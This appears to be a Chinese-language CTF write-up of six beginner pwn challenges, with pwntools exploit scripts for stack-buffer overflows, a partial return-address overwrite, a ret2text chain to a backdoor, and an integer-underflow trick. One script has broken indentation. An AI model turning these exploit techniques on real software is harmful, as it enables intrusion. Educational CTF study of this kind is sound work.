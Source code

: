# buffer_overflow

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091055.png)

反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091300.png)

可以看到ans的内容

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091337.png)

打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

local = True
if local:
    p = process("./buffer_overflow")
    pwnlib.gdb.attach(p, 'b *main')
else:
    pass

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'
p.send(payload)
p.interactive()
```
flag:

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115091529.png)
# game

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115092751.png)

反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *


context(os="linux", arch="amd64", log_level="debug")
local = True
if local:
    p = process("./game")
    # pwnlib.gdb.attach(p, 'b *main')
else:
    pass

num = 0
# p.recvuntil(b"Let's paly a game!")
while num<=999:
    p.sendlineafter(b'pls input you num:', b'9')
    num += 9
p.interactive()
```
flag:

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115092855.png)
# pie
开启了pie保护

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100232.png)

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100243.png)

栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
local = True
if local:
p = process("./pie")
    pwnlib.gdb.attach(p, 'b puts')
else:
    pass

# pwnlib.gdb,attach(p)
payload = b'a' * 0x28 + p64(0x6c)
p.send(payload)
p.interactive()
```
shell:

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116161208.png)

# real_login
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100541.png)

当输入为password时获取shell

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100606.png)

password如上

shell：

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115100635.png)
# ret2text
取名为ret2text则大概率有后门函数

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145056.png)

有明显的栈溢出漏洞，找找后门函数

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145124.png)

action不是CET-4 word所以他是后门函数~~找了半天~~ 
exp:
```python
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
local = True
if local:
    p = process("./ret2text")
    pwnlib.gdb.attach(p, 'b *main')
else:
    pass

# rbp = 0x4011fd

ret = 0x40101a
backdoor = 0x4014ba

payload = b'a' * 0x48 + p64(ret) + p64(backdoor)
p.recvuntil("Make a wish: ")
p.sendline(payload)
p.interactive()
```
shell:

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250116145301.png)
# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155103.png)

根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155212.png)

那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155407.png)

可以看到初始钱数为0x64即100。
获取shell：

![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020250115155516.png)
